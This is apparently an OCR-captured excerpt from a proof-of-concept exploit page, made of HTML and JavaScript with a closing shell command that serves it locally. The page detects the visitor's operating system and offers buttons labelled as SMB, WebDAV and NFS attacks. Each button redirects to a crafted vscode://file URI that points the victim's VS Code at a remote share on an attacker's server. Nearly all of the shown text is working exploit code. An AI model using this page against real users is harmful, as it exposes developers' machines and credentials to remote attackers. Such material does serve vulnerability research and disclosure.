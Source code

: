 ```html
      const uri = "vscode://file//%3f/UNC/" + smb_server + "/" + smb_share_name + "/" + smb_directory_name;
      log_major("SMB attack launched");
      redirect(uri);
    }

    function launch_webdav_attack() {
      const uri = "vscode://file//%3f/UNC/" + webdav_server + "@" + webdav_port + "/" + webdav_directory_name;
      log_major("WebDAV attack launched");
      redirect(uri);
    }

    function launch_nfs_attack() {
      const uri = "vscode://file/net/" + nfs_server + "/" + nfs_export_name + "/" + nfs_directory_name;
      log_major("NFS attack launched");
      redirect(uri);
    }

    function prepare_page() {
      log_major("Detecting OS");
      const os = detect_os();
      log("Got: " + os);

      if (os === "win") {
        document.getElementById("launch_smb").style.display = "block";
        document.getElementById("launch_webdav").style.display = "block";
      } else if (os == "mac") {
        document.getElementById("launch_nfs").style.display = "block";
      } else {
        log_major("OS not supported");
        return;
      }
      log_major("Attack ready for launch");
    }
  </script>

</head>

<body onload="prepare_page()">

  <textarea id="log_box" rows="8" cols="80" readonly></textarea>

  <div id="launch_div">
    <button style="display:none" id="launch_smb" onClick="launch_smb_attack()">Launch Windows SMB attack</button>
    <button style="display:none" id="launch_webdav" onClick="launch_webdav_attack()">Launch Windows WebDAV attack</button>
    <button style="display:none" id="launch_nfs" onClick="launch_nfs_attack()">Launch macOS NFS attack</button>
  </div>

</body>

</html>
^D

% python -m SimpleHTTPServer 8000
Serving HTTP on 0.0.0.0 port 8000 ...
```

